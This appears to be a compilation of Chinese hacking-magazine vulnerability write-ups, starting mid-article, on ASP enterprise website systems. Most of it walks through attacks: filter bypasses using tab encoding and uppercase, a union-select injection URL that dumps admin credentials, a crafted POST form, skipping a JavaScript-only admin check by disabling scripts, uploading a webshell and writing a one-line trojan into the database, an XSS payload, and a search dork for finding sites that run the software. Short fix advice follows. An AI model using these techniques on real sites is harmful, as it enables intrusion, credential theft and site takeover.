静下心来仔细揣摩了下作者的编程风格，基本上所有的变量都是用形如“id=Request("id")”这种格式接收的，防注入的重任交给了 chkstr.asp。在线版直接提交文件 open.asp 中就包含了它。分析 chkstr.asp 发现该文件只对 GET 和 POST 方式提交的数据进行了过滤，这样我们就可以进行 COOKIES 注入。关于 COOKIES 注入的过程，“黑手”有过很详细的介绍，我这里主要说一下对这套程序 GET 和 POST 过滤的突破。

先来看下 **chkstr.asp** 中对 GET 方式提交数据的过滤部分代码：

```asp
Dim strTemp
If LCase(Request.ServerVariables("HTTPS")) = "off" Then ' 判断请求是否穿过安全通道（SSL）
    strTemp = "http://"
Else
    strTemp = "https://"
End If
strTemp = strTemp & Request.ServerVariables("SERVER_NAME")
If Request.ServerVariables("SERVER_PORT") <> 80 Then strTemp = strTemp & ":" & Request.ServerVariables("SERVER_PORT")
strTemp = strTemp & Request.ServerVariables("URL")

If Trim(Request.QueryString) <> "" Then strTemp = strTemp & "?" & Trim(Request.QueryString)
strTemp = LCase(strTemp) ' 获取 GET 请求的地址并转化为小写
If Instr(strTemp,"select%20") or Instr(strTemp,"insert%20") or Instr(strTemp,"delete%20from") or Instr(strTemp,"count(") or Instr(strTemp,"drop%20table") or Instr(strTemp,"update%20") or Instr(strTemp,"truncate%20") or Instr(strTemp,"asc(") or Instr(strTemp,"mid(") or Instr(strTemp,"char(") or Instr(strTemp,"xp_cmdshell") or Instr(strTemp,"exec%20master") or Instr(strTemp,"net%20localgroup%20administrators") or Instr(strTemp,"db_name") or Instr(strTemp,"net%20user") or Instr(strTemp,";") or Instr(strTemp,"%20or") or Instr(strTemp,"backup%20") then
    Response.Write "<script language='javascript'>"
    Response.Write "alert('非法地址，单击确定返回首页。');"
    Response.Write "location.href='/index.asp'"
    Response.Write "</script>"
End If
```

可以看到作者过滤的非法字符基本上都是和空格一起过滤的，这样我们就有机可乘了。比如 select%20，在注入的时候我们可以用 select%09 代替，%09 是 Tab 键的 URL 编码，这里可以充当空格键的作用。

查看 **affiche.asp** 文件发现如下代码：

```asp
<%
id=Request("id")
if id="" then
```

接着我们看 POST 的过滤部分，代码如下：

```asp
For Each name In Request.Form
Dim s_BadStr, s_Sz, i
s_BadStr="'|and|select|update|chr|delete|from|;|insert|mid|master.truncatedb_name|xp_cmdshell|exec%20master|net%20localgroup%20administrators|drgptable|db_name|exec"
s_Sz = split(s_BadStr,"|")
For i = 0 To ubound(s_Sz)
    If Instr(Request.Form(name), s_Sz(i)) > 0 Then
        Response.Write "<script language='javascript'>"
        Response.Write "alert('非法地址，单击确定返回首页。');"
        Response.Write "location.href='/index.asp'"
        Response.Write "</script>"
    End If
Next
Next
```

我真不知道作者是怎么想的，这段代码不仅在风格上和 GET 过滤的代码大相径庭，还犯了一个很弱智的错误，在检验非法字符的时候没有将获得的字符串转化为小写，这样只要我们提交的注入语句是大写的就可以突破。

我们来自己构造表单，HTML 代码如下：

```html
<form method="post" action="http://127.0.0.1/affiche.asp">
<p>注入语句：<input name="id" type="text" size="100"></p>
<input type="submit" value="提交"></p></form>
```

在表单里写入注入语句，如图3。提交一下就可以成功注入，如图4。

```asp
Response.End
End If
%>
'..无关代码省略..
<%
SQL="Select * from product Where id="&id
Set rs=Server.CreateObject("ADODB.RecordSet")
rs.open SQL,con,1,1
%>
```

打开数据库看了下 product 表，共有 6 个字段，构造注入语句“http://127.0.0.1/affiche.asp?id=1073 and 1=2 union select%091,2,3,admin,5,pwd from admi”，成功爆出用户名和密码，如图2。

### 三、上传漏洞

这套系统一共有两种上传途径，一种就是用内置的 eWebEditor 编辑器，另外一种就是通过他们自己写的 mod_pho.asp 文件。所以 eWebEditor 我是没办法利用了。现在来分析下 mod_pho.asp 文件，代码如下：

```asp
<!--#include file="checkadmin.asp" -->
<!--#include file="Open.asp" -->
<!--#include file="upload.inc" -->
<%
……省略……
if image.filename<>"" then
    imgname=getfilename(image.filename)
    image.SaveAs Server.MapPath("img/"&imgname)
end if
……省略……
function getfilename(imgname)
    getfilename=replace(replace(replace(cstr(now)," ",""),":","")&radm()&right(imgname,4),"-","")
end function
……省略……
</body>
</html>
<!--#include file="close.asp" -->
```

```asp
<%
if vartype(Session("admin"))=0 or vartype(Session("admin"))=0 then
    Response.Write("<script>")
    Response.Write("parent.location.href='admin_login.asp'")
    Response.Write("</script>")
end if
%>
```

可以看出，该文件没有对上传文件类型进行任何限制，可以直接上传脚本木马。哈哈，这样我们就可以拿到 webshell 啦。

先别高兴得太早，文件在开头就包含了 checkadmin.asp，从文件名就可以看出，这个是检查管理员是否成功登录用的，如果我们可以绕过这个文件的检查就好了，思考中。

文件采用 Session 验证，如果没有正常登录，就通过下面的 JavaScript 语句将页面转到 admin_login.asp。看似无懈可击，其实作者这里犯了一个致命的错误。试想如果我们将浏览器的活动脚本禁用呢？那几行 JavaScript 不就形同虚设了吗？程序依然会继续执行下去的。后台文件都是通过 checkadmin.asp 验证的，这样只要我们把浏览器禁用活动脚本，就可以在后台畅通无阻了。

于是我将浏览器设置为禁用活动脚本，访问目标站的后台导航页面 `/admin/myweb_left.asp`，果然成功了，如图5。

获取 webshell 的方法也比较简单，我这里提供两种：

- 方法一：点开一个调用 mod_pho.asp 的链接，我这里点的是“联系我们”，然后将后门传上去，访问 `http://127.0.0.1/contact.asp`，在显示图片的地方右键选择属性就可以得到后门地址，如图6，这样我们就成功获取了 webshell。
- 方法二：由于数据库后缀格式是 asp，而且没有防下载装置，若没有更改默认数据库路径，我们就可以写入一句话木马，在网站配置那里写入一句话，如图7。

访问数据库得到 webshell，如图8。找了个稍微特别的文件，百度一下“inurl:cases_more.asp”，结果有 51 页，看来采用这个整站系统的站还不少。

### 四、登录验证漏洞





### 五、修补方法

现在我说下漏洞的修补方法：

- 1. 在 conn.asp 里加容错语句 `On Error Resume Next`，防止暴库。
- 2. 修补漏洞最简单的方法就是找一个安全的防注入程序替换原来的 chkstr.asp。
- 3. 在 checkadmin.asp 末尾处添加一句 `Response.End`，这样即使 JavaScript 语句失效后，程序执行到这里也会停下来，相应的问题也就迎刃而解了；或者干脆将 JavaScript 语句用 `Response.Redirect` 替换掉，也可以修补此漏洞。

最后说下，其实那个防注入程序还是有突破方法的，思路可参考第四部分对登录验证的分析，就当是给大家留个思考题吧。





> 编辑点评：“金玉其外，败絮其中”，这个词用在这里非常恰当。并不是说有意贬低，只是其安全性确实很一般！



# 几诺企业网站管理系统 1.1 Final

## 漏洞浅析

好久没有看代码了，趁着还有点时间就下载些程序来看看。今天分析的是“几诺企业网站管理系统 1.1 Final”。像这种企业站，很多都是漏洞百出的，话不多说，看下文。

### 一、custom.asp 注入

先看看它的界面吧，如图1，蛮漂亮的，但不要“金玉其外，败絮其中”就好了。果然，一下子在 `custom.asp?id=1` 后加引号就报错啦，如图2。再用 `and 1=1`、`and 1=2` 确认一下，如图3、图4，返回的结果存在明显的差异，铁定有注入漏洞了。



```asp
<%
exec="select * from [custom] where id="& request.QueryString("id") ' 注入产生
set rs=server.createobject("adodb.recordset")
rs.open exec,conn,1,1
%>
```

非常明显的注入，接受的 id 没经过任何过滤就直接放进数据库查询。懒人们可以把进入点 `http://127.0.0.1/custom.asp?id=1` 放进啊D检测，注意要添加一个 administrator 表，结果如图5。





### 二、guestbook_add.asp 跨站

留言处存在跨站，处理的页面是 `guestbook_add.asp`，代码如下：

```asp
<%
set rs=server.createobject("adodb.recordset")
sql="select * from guestbook"
rs.open sql,conn,1,3
title=request.form("title") ' 没过滤
contact=request.form("contact") ' 都是没过滤，同上
message_type=request.form("message_type")
tel=request.form("tel")
email=request.form("email")
body=request.form("body")

if title="" then
 response.Write("<script language=javascript>alert('标题不能为空!');history.go(-1)</script>")
 response.end
end if
if contact="" then
 response.Write("<script language=javascript>alert('留言人姓名不能为空!');history.go(-1)</script>")
 response.end
end if
if tel="" then
 response.Write("<script language=javascript>alert('电话/手机不能为空!');history.go(-1)</script>")
 response.end
end if

rs.addnew
rs("title")=title
rs("message_type")=message_type
rs("contact")=contact
rs("tel")=tel
rs("email")=email
rs("body")=body
rs.update
rs.close
set rs=nothing
conn.close
set rs=nothing
%>
<%
Response.Write "<script>alert('恭喜！留言成功！');window.location.href='guestbook.asp';</script>"
%>
```



又是一个典型的跨站，真是可怕！啥也没有过滤，只是简单地判断标题、用户名不为空就入库。在留言内容处可填上测试的跨站代码 `<script>alert(/xss/)</script>`，在后台查看留言时的效果如图6。

### 三、注入一箩筐

后来再去看看其它文件，发现这个企业程序还存在大量的注入。

- 1. `news_view.asp` 文件相关代码：

```asp
<%
exec="select * from news where id="& request.QueryString("id")
set rs=server.createobject("adodb.recordset")
rs.open exec,conn,1,1
%>
```



- 2. `products_category.asp` 文件相关代码：

```asp
<%
exec="select * from [products_category] where id="& request.QueryString("id")
set rs=server.createobject("adodb.recordset")
rs.open exec,conn,1,1
%>
```

- 3. `products_view.asp` 文件相关代码：

```asp
<%
exec="select * from products where id="& request.QueryString("id")
set rs=server.createobject("adodb.recordset")
rs.open exec,conn,1,1
%>
```

晕眩了吧，难道说程序员忘记把防注入文件放进去了么？真是不得了！还有 `news_category.asp` 等其它文件都有类似漏洞，几乎全是直接进入数据库查询的，用啊D浏览的效果如图7，可以看到许多注入点。

实在难以理解为什么这个企业站存在这么多注入漏洞，大概是程序员不知道“安全”两个字怎样写吧！代码看了一会我就不继续了，因为它的后台比较简陋，没有备份功能，不能写后门进配置文件，也没啥上传漏洞，所以拿 webshell 还是有点困难。有兴趣的朋友可以去挖掘挖掘，至于官方网站，也是存在不少漏洞，看来自安全的确还没进入它们的流程吧。

### 编辑点评：

这个系统非常弱，不堪一击！

# 欠完美的宰杀

